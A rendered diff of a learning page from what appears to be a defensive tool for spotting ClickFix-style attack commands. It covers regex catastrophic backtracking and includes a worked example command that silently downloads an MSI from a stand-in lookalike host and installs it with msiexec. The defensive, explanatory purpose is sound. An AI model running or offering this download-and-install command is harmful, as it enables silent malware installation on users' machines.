

Before and after one commit to vinaykumarchowdary18/clickfix-first-aid, a Markdown page: LEARN.md, the part around the change. GitHub-like rendering.

````diff
--- a/LEARN.md
+++ b/LEARN.md
@@ -79,7 +79,7 @@ Very long text is never simply allowed. The engine checks up to 200,000 characte
 
 Some regular expressions get very slow on unlucky input. `\b[a-z0-9-]+(?:\.[a-z0-9-]+)*\.top` looks innocent, but on text like `a.a.a.a.a...` it tries every way of splitting the dots, again from every starting point. In v0.2 four patterns took over 40 seconds each on 200,000 characters made for this (this is called *catastrophic backtracking*). The fix is to give every repeat a sensible upper limit, like `{1,63}` for one part of a web address, which is also the real limit in DNS, and to start matching only at the beginning of a word. A test now runs every pattern against hostile text and fails if one is slow.
 
-### Worked example: the command shape from the incident
+### Worked example: a command shape seen in a real attack
 
 ```
 cmd /c curl -s -o %TEMP%\S775.msi https://cloubflare.example.top/5 && msiexec /i %TEMP%\S775.msi /qn
````
Also changed, not shown: README.md (+1 -1 lines).
